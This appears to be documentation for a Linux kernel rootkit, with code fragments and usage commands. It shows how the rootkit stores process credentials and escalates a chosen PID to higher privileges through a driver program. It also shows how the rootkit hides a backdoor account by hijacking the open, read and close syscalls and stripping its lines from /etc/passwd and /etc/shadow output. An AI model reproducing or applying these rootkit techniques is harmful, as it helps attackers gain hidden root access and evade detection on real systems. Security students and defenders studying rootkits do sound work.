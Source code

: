 Our rootkit will also save the process's original credentials in a custom pid\_node struct.

    typedef struct pid_node {
        pid_t 		pid;
        kuid_t uid, suid, euid, fsuid;
        kgid_t gid, sgid, egid, fsgid;
        struct pid_node *prev, *next;
    } PID_NODE;

And back it up in case the user wants to drop the privileges.

    new_node->uid = pcred->uid;
    new_node->suid = pcred->suid;
    new_node->euid = pcred->euid;
    new_node->fsuid = pcred->fsuid;
    new_node->gid = pcred->gid;
    new_node->sgid = pcred->sgid;
    new_node->egid = pcred->egid;
    new_node->fsgid = pcred->fsgid;

### Example
Use our driver program to escalate a process by its PID.

Escalating a process with a PID 12345

    $ ./driver elevate 12345
Dropping the escalated process back to its original UID

    $ ./driver drop 12345

> **Note:** You may only drop processes you have escalated before.

## Backdoor Account
> **PLEASE NOTE: at most, 1 account can be hidden at a time**
The rootkit hides a backdoor account by hijacking the read syscall and truncating parts of the output buffer.

### Implementation Details
The module hijacks the system calls open, read, and close. The idea is that when a normal file is opened, all three syscalls will return their regular outputs. However, when files such as /etc/passwd and /etc/shadow are being opened, a flag called "erase" is triggered for read syscall to do specific hiding. 

The flag erase is an enum with the following definition.

    enum file_content_hide {NONE, PASS_E, SHAD_E} file_content_hide;

A switch statement is used to determine the content to hide (stored in string variable hidden).

    switch(erase){
        case PASS_E:
            hidden = fugitive__lines[0];
            break;
        case SHAD_E:
            hidden = fugitive__lines[1];
            break;
        case NONE:
            // Do nothing as it is a regular file
            break;
    }
